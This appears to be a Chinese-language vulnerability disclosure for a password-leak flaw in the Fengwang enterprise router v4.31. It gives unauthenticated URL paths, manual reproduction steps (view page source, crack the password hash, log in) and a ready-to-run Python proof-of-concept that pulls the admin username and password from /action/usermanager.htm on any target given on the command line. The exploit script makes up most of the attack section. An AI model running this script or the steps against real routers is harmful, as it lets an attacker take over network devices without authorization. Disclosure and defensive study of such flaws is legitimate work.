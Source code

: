 ## 前言  

蜂网互联企业级路由器v4.31密码泄露漏洞

## 漏洞简介  

蜂网互联企业级路由器v4.31密码泄露漏洞,密码`hash`直接存放在网页源码里

## 漏洞危害  

蜂网互联企业级路由器v4.31密码泄露,可直接接管路由器

## 影响范围  

### 产品  

> 蜂网互联企业级路由器

### 版本  

> 蜂网互联企业级路由器v4.31  

### 组件  

> 蜂网互联企业级路由器v4.31  

## 漏洞复现  



访问/index.htm?PAGE=web链接，此链接未授权访问（里面的操作需要认证）：



选择`web账号管理：
查看源代码即可获取到登录密码的哈希值：



解密哈希即可获得密码：



/login.html从此链接登录系统：



## POC

```python
from optparse import OptionParser
import requests
import json

def getpass(target):
    r = requests.get( target + '/action/usermanager.htm')
    #return r.text
    s=json.loads(r.text)
    s=str(s['rows'])
    s=s.replace("[","")
    s=s.replace("]","")
    s=s.replace("\'","\"")
    s2=json.loads(s)
    print("账号:"+s2['user']+"，密码:"+s2['pwd']+"\n登录地址为:"+target+"/login.html")

def main():
    usage = "usage: python3 %prog -t 目标(格式：http://1.1.1.1)"
    parser = OptionParser(usage=usage)
    parser.add_option('-t', dest='target',type='string',help='目标ip')
    (options, args) = parser.parse_args()
    target = options.target
    if target:
        getpass(target)
if __name__ == "__main__":
    main()
```
